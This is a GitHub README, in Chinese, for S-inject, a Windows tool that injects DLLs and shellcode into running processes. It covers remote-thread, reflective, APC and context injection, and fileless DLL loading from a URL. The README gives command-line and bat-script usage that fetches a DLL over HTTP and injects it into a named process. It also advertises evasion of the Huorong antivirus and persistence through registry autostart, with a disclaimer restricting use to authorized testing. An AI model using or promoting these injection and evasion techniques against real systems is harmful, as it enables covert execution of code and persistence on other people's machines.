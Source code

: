 ![](https://img.shields.io/badge/joe1sn-S_inject-green)  ![](https://img.shields.io/badge/windows-C++-yellow)

<h1><p align="center">S-inject</p></h1>

<p align="center">DLL+Shellcode的Windows注入免杀工具</p>

<p align="center"><img src="./README.assets/image-20240205141410967.png"></p>

只是罗列各种方法，免杀推荐搭配其他技巧，要具体灵活使用

**须知：**

1. 反射式注入参考了著名github项目：https://github.com/stephenfewer/ReflectiveDLLInjection
   该项目为反射式注入支持的DLL
2. Shellcode使用base64编码后的shellcode
3. 相关测试的DLL文件在`Test Files`文件夹中

**免责声明：** 本工具仅供教育和授权测试目的使用。开发者及贡献者不支持、不鼓励也不赞成任何非法或未经授权的使用。 用户有责任确保其使用本工具的行为符合所有适用的法律法规。严禁将本工具用于任何未经授权的活动。 开发者及贡献者对使用本工具造成的任何损害或后果不承担责任。使用前请自行承担风险。 通过使用本工具，您同意这些条款，并对您的行为承担全部责任。

# Update

- **[2025-2-19]** 变化主题
- **[2025-2-17]**

1. 新增远程URL加载DLL
2. 由于 [issues 4](https://github.com/Joe1sn/S-inject/issues/4)等的反应，使用参数快速完成注入

- **[2024-7-7]** 优化一个进程选择Bug，详细见 [issues 2](https://github.com/Joe1sn/S-inject/issues/2)
- **[2024-6-18]** 修复选择进程和遍历进程快速闪烁的问题。修复后需要重新开打功能才能看到新的进程。
- **[2024-6-6]** 

1. 更好的GUI布局，支持Docking。
  2. 代码整理，优化项目文件结构，尽量贴合我认为（~~知道~~）的现代cpp规范。
  3. 遍历部分使用 `NtQuerySystemInformation`  （虽然会导致快速刷新）

- **[2024-5-24]**  **更新GUI图形化界面**，之前版本只保留原始二进制文件。貌似之前就被defender识别到了....

- **[2024-5-16]** 更新远程线程注入，让取消DLL注入更加便捷，便于第二次注入
- **[2024-4-1]** 更新DLL的暴力注入，详细见readme->使用->DLL自动注入/暴力注入
- **[2024-3-8]** 更新64位`CreateRemoteThread`为直接系统调用，方法采用`SysWhispers3`项目

# New Feature

- [2025-2-19] V2.2.1更新

  更换了主题配色，更多配色在`app/utils/theme.hpp`内，更换主题需要重新编译（因为有的主题没有测试完，所以暂时不会运行时改变主题）

  ![image-20250219105558106](./README.assets/image-20250219105558106.png)

- [2025-2-17] V2.2更新

  1. 新增远程URL进行Get请求加载DLL，可以实现dll文件不落地加载dll，由于依赖反射式注入，所以dll的格式应该与反射式注入的相同，格式为：https://github.com/stephenfewer/ReflectiveDLLInjection

     ![image-20250217173155506](./README.assets/image-20250217173155506.png)

  2. 添加参数可以快速完成注入

     `-method`：使用的注入方法

     - `rmtdll`：远程线程注入DLL
     - `refdll`：反射式注入DLL
     - `apcdll`：APC队列注入DLL

     - `net`：从网络加载DLL注入DLL
     - `rmtsc`：远程线程注入Shellcode
     - `apcsc`：APC队列注入Shellcode
     - `ctxsc`：上下文注入Shellcode

     `-proc`：注入进程的名字

     `-path`：dll的文件路径、dll的url（http开头）、base64后的shellcode

     `-pid`：进程`PID`

     用例

     ```
     .\S-Inject_x86_gui.exe -method net -proc "x32dbg" -path "http://127.0.0.1/reflective_x86.dll"
     ```

     ![image-20250217193111847](./README.assets/image-20250217193111847.png)

     可以据此编写对应的bat脚本来实现自动注入，如这里的`test.bat`

     ```
     @echo off
     D:\Github\S-inject\Release\S-Inject.exe -method net -proc "x32dbg" -path "http://127.0.0.1/reflective_x86.dll"
     pause
     ```

     这样双击该bat脚本即可向`x32dbg`的进程使用`网络加载`注入url为`http://127.0.0.1/reflective_x86.dll`的dll

- [2024-6-6] V2.1更新

  1. Docking，拖拽可以重新排版

     ![image-20240606124658850](./README.assets/image-20240606124658850.png)
     
  2. ImGUI窗口排版通过`imgui.ini`保存，可参考我的排版（ini文件位于bin中，使用时放于同一目录下）
  
     ![image-20240606224950591](./README.assets/image-20240606224950591.png)

# 免杀效果

远程shellcode注入等功能可免杀火绒，VNC无感，可注册表添加开机自启动

![image-20240216112653373](./README.assets/image-20240216112653373.png)

![image-20240216113029381](./README.assets/image-20240216113029381.png)

![image-20240216113432922](./README.assets/image-20240216113432922.png)

![image-20240216113917066](./README.assets/image-20240216113917066.png)

# 支持功能

![image-20240205124826998](./README.assets/image-20240205124826998.png)

**DLL注入**

- 远程线程注入
- 反射式注入
- APC调度注入

**Shellcode注入**

- 远程线程注入
- APC调度注入
- Context上下文注入

**可注入进程遍历**

# 使用

1.x版本（无图像化界面）使用说明见：`oldREADME.md`

![image-20250217193433513](./README.assets/image-20250217193433513.png)

直接勾选对应功能，选择DLL/Shellcode，和对应进程的PID

<img src="./README.assets/image-20240520101608876.png" alt="image-20240520101608876" style="zoom: 80%;" />

![image-20240520101704029](./README.assets/image-20240520101704029.png)

最后点击`start`开始注入





